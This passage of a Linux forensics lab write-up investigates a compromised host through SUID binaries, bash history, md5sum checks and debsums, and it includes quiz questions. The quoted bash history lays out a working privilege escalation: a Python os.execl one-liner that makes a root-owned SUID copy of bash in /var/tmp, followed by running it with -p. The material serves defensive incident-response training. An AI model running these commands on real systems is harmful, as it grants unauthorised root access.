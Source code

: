 Much of the output here is expected as these binaries require the SUID bit and are not vulnerable. However, two of these results stand out. Firstly, `Python` should never be given SUID permission, as it is trivial to escalate privileges to the owner. Additionally, any SUID binaries in the `/tmp` or `/var/tmp` directory stand out as these directories are typically writable by all users, and unauthorised creation of SUID binaries in these directories poses a notable risk.

We can investigate further by looking in Jane's bash history for any commands related to Python or bash:

```bash
$ sudo cat /home/jane/.bash_history | grep -B 2 -A 2 "python"
ls -la
find / -perm -u=s -type f 2>/dev/null
/usr/bin/python3.8 -c 'import os; os.execl("/bin/sh", "sh", "-p", "-c", "cp /bin/bash /var/tmp/bash && chown root:root /var/tmp/bash && chmod +s /var/tmp/bash")'
ls -al /var/tmp
/var/tmp/bash -p
exit
```       
`-B 2`: Shows 2 lines before each matching line

`-A 2`: Shows 2 lines after each matching line

From the output, we've discovered evidence of Jane's user account identifying SUID binaries with the find command and abusing the SUID permission on the Python binary to run system commands as the root user. With this level of command execution, the attacker was able to create a copy of the `/bin/bash binary` (the Bash shell executable) and place it into the `/var/tmp` folder. Additionally, the attacker changed the owner of this file to root and added the SUID permission to it (`chmod +s`).

After making an SUID copy of `/bin/bash`, the attacker elevated to root by running `/var/tmp/bash -p`. We can further verify the bash binary by performing an integrity check on the original:

```bash
$ md5sum /var/tmp/bash 
7063c3930affe123baecd3b340f1ad2c  /var/tmp/bash
$ md5sum /bin/bash
7063c3930affe123baecd3b340f1ad2c  /bin/bash
```

The output above shows that the two binaries are identical, further enhancing our understanding of the attacker's actions to escalate to root.

> **Run the debsums utility on the compromised host to check only configuration files. Which file came back as altered?**
```bash
$ sudo debsums -e -s
debsums: changed file /etc/sudoers (from sudo package)
```
><details><summary>Click for answer</summary></details>


> **What is the md5sum of the binary that the attacker created to escalate privileges to root?**
```bash
$ md5sum /var/tmp/bash 
7063c3930affe123baecd3b340f1ad2c  /var/tmp/bash
```
><details><summary>Click for answer</summary></details>
